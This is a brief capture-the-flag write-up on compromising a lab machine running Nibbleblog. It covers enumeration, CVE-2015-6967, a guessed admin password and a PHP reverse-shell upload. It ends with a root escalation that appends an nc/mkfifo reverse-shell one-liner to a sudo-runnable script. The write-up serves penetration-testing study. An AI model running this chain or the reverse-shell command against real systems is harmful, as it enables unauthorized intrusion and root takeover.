





I begin by performing a port scan to identify exposed services. The scan reveals that SSH and HTTP are open.
Since HTTP is available, I start by accessing the web application through the browser.
While inspecting the page source, I find a comment that references a directory related to Nibbleblog.
I perform a directory enumeration against the following path:
dirb http://10.10.10.75/nibbleblog/During enumeration, I discover a login page and a README file. Inside the README, I find the exact version of Nibbleblog running on the server.

Using searchsploit, I find that this version of Nibbleblog is vulnerable to CVE-2015-6967.

One of the configuration files reveals that there is a user named admin.
After testing several credentials, I discover that using the blog name as the password grants access to the admin dashboard. This information is referenced inside the config.xml file.
Once inside the dashboard, I upload a malicious PHP file to obtain a reverse shell. For this step, I use the PHP reverse shell from Pentestmonkey.
After uploading the file, I access it from the following path to trigger the shell:
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
With an initial shell, I run sudo -l and discover that I can execute a specific .sh script as root.

I unzip the script and modify it by appending a reverse shell payload. This allows me to escalate privileges when the script is executed with sudo.
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f' | tee -a monitor.shAfter executing the script with sudo, I successfully obtain a root reverse shell.
